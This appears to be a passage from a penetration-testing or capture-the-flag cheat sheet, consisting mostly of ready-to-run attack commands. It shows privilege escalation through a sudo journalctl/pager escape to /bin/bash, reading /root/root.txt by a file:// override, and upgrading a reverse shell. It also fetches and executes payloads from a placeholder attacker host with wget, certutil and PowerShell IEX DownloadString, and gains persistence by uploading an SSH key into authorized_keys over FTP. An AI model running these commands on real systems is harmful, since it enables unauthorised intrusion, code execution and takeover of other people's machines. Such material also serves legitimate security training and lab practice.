 Override input:
```bash
echo 'url = "file:///root/root.txt"' > input
```

---

### 📜 Exploiting More / Less or Journalctl

If executed via a privileged script:
```bash
!/bin/bash
```

Example within VIM/Journalctl:
```bash
sudo /usr/bin/journalctl -n5 -unostromo.service
# Then type !/bin/bash
```

---

### 🧬 Improve Reverse Shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
# Press CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

---

### 📂 Transfer Files (Host → Victim)

**Linux:**
```bash
python3 -m http.server
wget http://<HOST_IP>:8000/file.sh
```

**Windows:**
```bash
certutil -urlcache -f http://<HOST_IP>/payload.exe payload.exe
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://<HOST_IP>:8000/script.ps1')"
```

---

### 📁 FTP Access

If login successful:
```bash
put id_rsa.pub
rename id_rsa.pub .ssh/authorized_keys
```

---

### 🕵️ Reconnoitre – Enumeration Automation

Multi-threaded recon and service enumeration:
👉 [Reconnoitre Tool](https://github.com/codingo/Reconnoitre)

```bash
reconnoitre -t <TARGET_IP> -o `pwd` --services
```

---
